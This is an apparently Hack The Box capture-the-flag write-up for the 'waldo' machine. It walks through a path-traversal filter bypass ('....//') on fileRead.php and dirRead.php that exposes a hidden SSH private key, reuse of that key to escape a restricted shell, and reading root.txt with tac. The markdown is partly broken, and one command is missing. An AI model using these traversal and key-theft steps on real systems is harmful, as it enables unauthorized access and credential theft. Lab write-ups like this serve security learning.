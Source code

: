 # waldo

In the source code of the http website there is this javascript code:

```javascript
function readFile(file){ 
  var xhttp = new XMLHttpRequest();
  xhttp.open("POST","fileRead.php",false);
  xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhttp.send('file=' + file);
  if (xhttp.readyState === 4 && xhttp.status === 200) {
    return xhttp.responseText;
  }else{
  }
}
```

we can use this to read other php files on the server

we intercept the request with burpe and we find out that we can provide an output to `/dirRead.php` to get files. when playing around with requests we can see that there is a filter on the ../../ `path=....//....//....//....//....//home/nobody//.ssh returns; [".","..",".monitor","authorized_keys","known_hosts"]` so we can see that the .moinitor might be the private key

we then do this command in /fileRead.php:

```text
which gives us the ssh key for the user nobody 
we can also use the script provided to have a command line interface to get the ssh key
it appears taht there is another user on the box 'monitor' so we try log back in with teh same ssh key to escape our restricted bash shell

```ssh -i /home/nobody/.ssh/.monitor monitor@127.0.0.1 -t bash --noprofile
```

the path is screwed so we have to do: `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH` now we can go and have a look around we eventually figure out that we can use the tac binary to read files.

`tac /root/root.txt`


